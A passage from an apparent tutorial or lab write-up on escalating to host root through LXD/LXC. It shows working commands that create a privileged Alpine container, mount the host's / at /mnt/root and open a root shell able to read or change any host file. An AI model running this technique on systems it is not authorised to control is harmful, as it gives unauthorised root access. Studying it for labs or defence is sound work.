 I normally check if it imported by running the following:

```bash
$ lxc image list
```

Step 3 - Create a container from the image named kwmd.

```bash
$ lxc init alpine kwmd -c security.privileged=true
```

The security.privileged=true configuration option maps the container uid 0 to the host's uid 0. In other words, the container's user is root and will run as root on the host machine.

Step 4 - Map the host hard drive to the container hard drive, I alias the drive as mydrive in this example.

```bash
$ lxc config device add kwmd mydrive disk source=/ path=/mnt/root recursive=true
```

This mounts the / directory on the host to the /mnt/root directory in the container. This combined with the security.privileged=true in step 3 is very dangerous.

Step 5 - Start the container.

```bash
$ lxc start kwmd
```

Step 6 - Enter the container with a shell.

```bash
$ lxc exec kwmd /bin/sh
```

The cursor will show up as a # character to let me know I am root.

I can now modify view or modify any file on the host directory. I just need to remember that **within the container, the host file system is mounted to /mnt/root**. Here are some examples:

- The /etc directory on the host would be /mnt/root/etc from the container.
- The /home directory on the host would be /mnt/root/home from the container.
- The /root directory on the host would be /mnt/root/root from the container.

Since I am root in the container and security.privileged=true was set, the host operating system maps any of my root container actions to the root user on the host machine.

